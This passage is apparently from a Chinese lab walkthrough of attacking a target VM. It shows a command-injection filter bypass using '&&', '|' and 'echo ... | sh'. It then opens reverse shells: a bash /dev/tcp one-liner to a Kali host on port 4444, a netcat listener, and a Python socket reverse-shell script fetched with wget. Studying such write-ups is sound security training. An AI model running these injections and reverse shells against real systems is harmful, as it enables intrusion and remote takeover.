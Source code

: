![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9HhKg5dN9xSGL8Vz5nJOv6sicJZJh3JfEXGef2sUwvhSVMpxkRNibnibnA/640?wx_fmt=png)

第二步，使用 Linux 的 & 和 | 进行命令组合绕过

*   ifconfig&&ls
    
*   ifconfig & whoami
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg98wrP5j3IcrZDiatwvIGcjUrxyEjicwUkVkJsTFbeK53kMJW9Oqopwm7g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9H5ibmW5iaiajvSlyrBh2Q81tLCP1mkxzD8gUbSQCwS96vIrib89tjsj6Gg/640?wx_fmt=png)

我们需要想办法绕过防火墙取得最终权限，经过一番琢磨，用 echo 命令打包可以实现绕过，例如：echo whoami|sh。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9CIjhoEgibphFOtss0oh5Ul8H4TFbz9khmPYF5t0hBR4IRXdLBUhgsUw/640?wx_fmt=png)

第三步，nc 监听端口并反弹 shell  
本地执行 nc -lvp 4444 监听本地端口 4444，然后在 Web-shell 上执行反弹脚本。

*   nc -lvp 4444
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9Rj4ojQ75F23uicPJcLybASBvGOHp0zDj3ibsjz4jLO5vicgdPibBCrOaQw/640?wx_fmt=png)

接着尝试 bash 反弹，在靶机打开的网页命令框中输入命令，但结果提示错误。

*   bash -i >& /dev/tcp/192.168.44.138/4444 0>&1
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9FSpZohzCOYiaAT690b5zEMDKSOicibGYbgheZp1CJRlSV8VhEbtjsXRQA/640?wx_fmt=png)

由于 echo 命令是允许执行的，所以利用 echo 构建一个反弹 shell 的命令，然后用管道符给 bash 执行。

*   ls &&echo “bash -i>& /dev/tcp/192.168.44.138/4444 0>&1” | bash
    
*   echo “bash -i>& /dev/tcp/192.168.44.138/4444 0>&1” | bash
    
*   IP 地址为 Kali 攻击机地址
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9BPp9e3m8M3bhAgK6gYr9lOqXPO4I1UQn8magfIYciaTsf4yJsiaR9UIQ/640?wx_fmt=png)

在 web 页面执行 echo ‘bash -i >& /dev/tcp/192.168.44.138/4444 0>&1’|bash，就可以弹回一个 shell。注意，这里的 IP 地址是 Kali 系统的，否则会提示 “500 错误”。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9H5lRJU9ibtNsEvU82eibVkia2l24DfOV3a2LoPo05dNfWNkoOXs4CfTUw/640?wx_fmt=png)

此时的 nc 处于正常监听状态，并且成功反弹 shell。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9opYOc4Q3yQDjesHBq2rIqo9icwpI4icKib2diaA4HlB60cAqwTvcaB62hQ/640?wx_fmt=png)

同时，补充另一种方法。通过 Kali 搭建一个简易 Web 服务，反弹 shell 的脚本要写到相应的目录，否则靶机用 wget 下载的时候就会访问失败。

```
import socket,subprocess,os s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)s.connect(("192.168.44.138", 4444))  #Kali系统IP地址 4444是nc的监听端口os.dup2(s.fileno(),0)os.dup2(s.fileno(),1)os.dup2(s.fileno(),2)p=subprocess.call(["/bin/bash","-i"])
```
